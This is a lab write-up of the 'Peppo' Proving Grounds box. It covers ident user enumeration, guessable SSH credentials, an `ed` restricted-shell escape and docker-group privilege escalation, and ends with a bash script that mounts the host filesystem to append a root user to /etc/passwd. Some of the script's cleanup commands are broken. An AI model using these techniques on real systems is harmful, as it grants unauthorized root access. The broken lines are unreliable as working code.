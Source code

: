 ```yaml
---
layout: writeup
title: Peppo - Proving Grounds
date: 2024-07-18 13:32:20 +0300
description: A Writeup of the Peppo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux]
---
```


Here's a writeup for Marketing, an Intermediate Proving Grounds box I saw on the LainKusunagi OSCP Prep List. I take note that the community has rated this Hard. Let's kick things off with a port scan using nmap: `sudo nmap -p- -T4 -v 192.168.242.60`.

```
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
113/tcp   open   ident
5432/tcp  open   postgresql
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt
```

Pretty quickly we see there is a port open on 8080, so I go to the browser to check it and begin a gobuster scan to check for any particularly interesting directories. 

![Peppo1.png](/assets/images/Peppo/Peppo1.png){: .center-aligned width="600px"}
The directory scan shows a page called `/users` which prompts us to login. I try `admin:admin` which works, but we get prompted for a new password (`party321`). I click around a while in the application and check for exploits online. While I'm enumerating the site, I create a test project to see what that does. I can't exactly tell, but once I'm in the project, I see a field for files, and that reminds me of a settings page with allowed extensions. 

![Peppo2.png](/assets/images/Peppo/Peppo2.png){: .center-aligned width="600px"}

I add a few, including Ruby due to Wappalyzer. I create a ruby shell and upload it, but it seems to only show the text when clicking the file after.

![Peppo3.png](/assets/images/Peppo/Peppo3.png){: .center-aligned width="600px"}
Maybe there's another way to execute or access, but I don't immediately see one in browser or in my still-running gobuster scan. 

I try an [exploit](https://github.com/slowmistio/Redmine-CVE-2019-18890) I saw earlier on, but I can't seem to get it working. It is a SQL injection with a sample `SLEEP(5)` injection, and the output says it was successful, but it doesn't take 5 sections, and it says it's successful even when I use a URL with a sub-directory that doesn't exist. Checking the Information panel in the admin console shows us that we are working with `Redmine version 4.1.1.stable`, so that's probably a dead end. It may be time to explore ports 113, 5432, and 10000. 

I check out port 113 which is running ident. I don't know much about it, but apparently it associates TCP connections with a specific user, and we can install `ident-user-enum` with apt. So I run it on the open ports, and get `ident-user-enum 192.168.242.60 10000` to return `eleanor`. Maybe that's useful. 

I try to use that with `psql` to connect to the PostgreSQL service, but I can't get that working. Port 10000 returns 'Hello World' in browser, but Wappalyzer suggests this is ultimately coming from Redmine, and is not a webserver for which we can scan the directory. 

After a few hours I give up and look for a hint. It turns out we can log in through SSH using `eleanor:eleanor`. I have rarely if ever seen that in a lab like this. SSH usually seems to be for administration for the lab, not the first foothold. So that's lesson learned 1 - remember to try that. Dumb. But I SSH in and find the shell is restricted. 

![Peppo4.png](/assets/images/Peppo/Peppo4.png){: .center-aligned width="600px"}

I can't `cd`, `cat`, or redirect output (`>` or `>>`), and a number of basic commands are not found. I try to use `scp` to copy files into eleanor's home directory, but I get a connection closed. We can however `echo $PATH` which returns `/home/eleanor/bin`, and then we can `ls /home/eleanor/bin` to find which commands we can run. 
![Peppo5.png](/assets/images/Peppo/Peppo5.png){: .center-aligned width="600px"}

Maybe we can use one of those. Gtfobins says we can use `ed` to break out of a restricted environment so I run `ed` and `!/bin/sh`. This kind of works, but tit turns out we need the full path to run some commands like `cat`. 

![Peppo6.png](/assets/images/Peppo/Peppo6.png){: .center-aligned width="600px"}

Not that big of a deal. I can also cd into helloworld and find `index.js` which shows: 

```
const http = require('http');
const hostname = '0.0.0.0';
const port = 10000;
http.createServer((req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/plain' });
  res.end('Hello World\n');
}).listen(port, hostname, () => {
  console.log('Server running...');
});

```

That looks like what we see in port 10000. I try echoing a .js shell in the same directory, but the permission is denied. The `find` command is not on the machine either to help find SUID binaries. `Sudo` isn't either. I upload lse, les, and linpeas to try those out using the full path of `/usr/bin/wget` (or simply using a penelope shell and using native commands to upload it).

Linpeas really wants us to notice the docker group we are a part of. 

![Peppo7.png](/assets/images/Peppo/Peppo7.png){: .center-aligned width="600px"}

I check for docker commands on gtfobins, and most of them seem to need some kind of downloaded image. For example when I run `CONTAINER_ID="$(docker run -d alpine)"`, I get the response, `Unable to find image 'alpine:latest' locally` - same with debian which we are actually on according to `/bin/uname -a`. Apparently docker images are usually stored in `/var/lib/docker`, but we don't have access. I can however run `/usr/bin/docker ps -a` to get a list of all images and see that redmine and postgres are available. Unfortunately even substituting these images does not seem to allow us to overwrite `/etc/sudoers` (like in [Nukem](remember to link)) or `/etc/passwd` as in others. It also won't allow me to read protected files so I'm not exactly sure why linpeas flagged it.

After a few more hours I give up and check a writeup. Turns out I did need docker, and I was just looking at the wrong code on gtfobins. I can't use it to do privileged read or writes, but just using it to get a shell automatically gives you a root shell. 

![Peppo8.png](/assets/images/Peppo/Peppo8.png){: .center-aligned width="600px"}

My experience to this point is that this section of gtfobins just gets you a shell. This is what we did with `ed` actually, but it didn't give you a root shell. Now I know I guess. 

![Peppo9.png](/assets/images/Peppo/Peppo9.png){: .center-aligned width="600px"}

Lessons learned: Try to log into ssh even though it's a Proving Grounds lab, and make sure to do a little more reading on the topic. After I "completed" the lab, I went back and read a little bit more to try to solidify my understanding. [This](https://flast101.github.io/docker-privesc/)post helped. It also pointed out that I was only still in the container, but I was able to read the proof flag. So I did go ahead and edit /`/etc/passwd` and create a new user with a password generated from openssl. I was able to ssh using that user getting full root access over the machine. 

That same post also had a script PoC. The version posted did not work because we had to change a lot of different commands to their full paths, so it took a bit of trial and error. The final script looks like this: 

```
#!/bin/bash

docker_test=$( /usr/bin/docker ps | /bin/grep "CONTAINER ID" | /usr/bin/cut -d " " -f 1-2 ) 

if [ $(/usr/bin/id -u) -eq 0 ]; then
    echo "The user islready root. Have fun ;-)"
    exit
    
elif [ "$docker_test" == "CONTAINER ID" ]; then
    echo 'Please write down your new root credentials.'
    read -p 'Choose a root user name: ' rootname
    read -s -p 'Choose a root password: ' passw
    hpass=$(/usr/bin/openssl passwd -1 -salt mysalt $passw)

    echo -e "$rootname:$hpass:0:0:root:/root:/bin/bash" > new_account
    mv new_account /tmp/new_account
    /usr/bin/docker run -tid -v /:/mnt/ --name flast101.github.io redmine # CHANGE THIS IF NEEDED
    /usr/bin/docker exec -ti flast101.github.io sh -c "/bin/cat /mnt/tmp/new_account >> /mnt/etc/passwd"
    sleep 1; echo '...'
    
    echo 'Success! Root user ready. Enter your password to login as root:'
    /usr/bin/docker /bin/rm -f flast101.github.io
    /usr/bin/docker image /bin/rm redmine
    /bin/rm /tmp/new_account
    /bin/su $rootname

else echo "Your account does not have permission to execute docker or docker is not running, aborting..."
    exit

fi

```

Note that some of the commands require `/usr/bin/$command` and some just `/bin/$command`. Eventually I did get it working though, so that was always an option. I found this blog earlier in my research but failed to properly read through it, so again this is another box that I shouldn't have needed a writeup for. I got up with the intention of reading it when I sat back down and failed to do so. Not great, but now I know, and at least I punished myself with a few hours of looking aimlessly around the box. 

** Bonus: This escalation path is featured in the last video of [TCM's Linux Privilege Escalation Course](https://academy.tcm-sec.com/courses/) which I happened to view the very next day. 

